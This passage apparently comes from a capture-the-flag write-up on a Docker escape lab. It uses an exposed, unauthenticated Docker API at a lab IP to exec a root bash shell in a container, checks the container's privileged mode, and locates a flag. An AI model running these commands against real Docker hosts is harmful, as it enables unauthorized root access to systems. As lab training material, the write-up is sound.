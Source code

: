 Lets spawn bash shell on the `dockerescapecompose_frontend_1` - container.

{% code overflow="wrap" lineNumbers="true" %}
```bash
docker -H 10.10.95.235:2375 exec -it dockerescapecompose_frontend_1 /bin/bash

# or using the image id
docker -H 10.10.95.235:2375 exec -it 49fe455a9681 /bin/bash
```
{% endcode %}

And we got a root shell.

<figure><img src=".gitbook/assets/image (351).png" alt=""><figcaption></figcaption></figure>

#### Check if any of the docker instance is running in Privileged Mode

{% code overflow="wrap" %}
```bash
# format.
docker -H <ip_address> inspect --format='{{.HostConfig.Privileged}}' <container id>

# using bash
if [[ $(docker inspect --format='{{.HostConfig.Privileged}}' <container id>) == "false" ]]; then
    echo not privileged
else
    echo privileged
fi
```
{% endcode %}

{% code overflow="wrap" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ docker -H 10.10.95.235:2375 inspect --format='{{.HostConfig.Privileged}}' 49fe455a9681
false
```
{% endcode %}

#### Flag 1 was found in the dir:

`/usr/share/nginx/html/.well-known` - in the `dockerescapecompose_frontend_1` container.

<figure><img src=".gitbook/assets/image (352).png" alt=""><figcaption></figcaption></figure>
